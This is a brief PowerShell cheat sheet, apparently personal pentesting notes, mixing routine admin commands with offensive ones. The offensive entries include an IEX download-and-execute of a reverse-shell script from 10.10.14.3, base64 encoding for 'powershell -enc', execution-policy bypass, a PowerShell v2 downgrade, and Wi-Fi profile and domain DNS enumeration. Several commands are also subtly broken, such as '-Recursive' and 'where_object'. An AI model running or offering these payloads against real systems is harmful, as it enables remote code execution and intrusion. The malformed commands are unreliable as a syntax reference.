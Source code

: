 ###### powershell: find hidden files recursice  
`Get-ChildItem -Hidden -Recursive \path\`
  
###### powershell: compress (zip) a file  
`Compress-Archive -U -LiteralPath \source\path\ -DestinationPath \path\newfile`
  
###### powershell: unzip a file  
`Expand-Archive -LiteralPath \source\path\ -DestinationPath \path\target`  
  
###### powershell: extract string of command result  
`findstr "something"  `
  
###### powershell: show all bssids of saved wifi networks  
`netsh wlan show profiles * | findstr "SSID-Name"  `
  
###### powershell: allow execution of all ps scripts  
`Set-ExecutionPolicy Unrestricted`
  
###### powershell: list execution policies  
`Get-ExecutionPolicy -List`
  
###### powershell: display file contents  
`Get-Content <file>  `
  
###### powershell: CMDlet help  
`Get-Help <CMDlet> -examples  `
  
###### powershell: display ps version  
`$PSVersionTable`
  
###### powershell: run PS v2  
`powershell.exe -version 2.0  `
  
###### powershell: list running services  
`Get-Service | where_object {$_.status -eq "Running"}  `
  
###### powershell: return services  
`get-service | measure-object  `
  
###### powershell: return list of PSDrives  
`get-psdrive  `
  
###### powershell: return only names  
`get-process | select -expandproperty name  `
  
###### powershell: export OS information to CSV  
`Get-WmiObject -class win32_operatingsystem | select -property * | export-csv c:\os.txt  `
  
###### powershell: download file over HTTP  
`(new-object system.net.webclient).downloadFile("url","dest")  `
  
###### powershell: list hostname and IP for all domain computers  
`Get-WmiObject -ComputerName <DC> -Namespace root\microsoftDNS -Class MicrosoftDNS_ResourceRecord  Filter "domainname=' <DOMAIN>'" | select textrepresentation  `
  
###### powershell donload file  
`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/reverse.ps1')  `
`cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 powershell -enc "BASE64"`

###### Invoke Script
`.\Script.ps1`
`Invoke-Function`

###### Bypass execution policy
`powershell.exe -ep bypass`
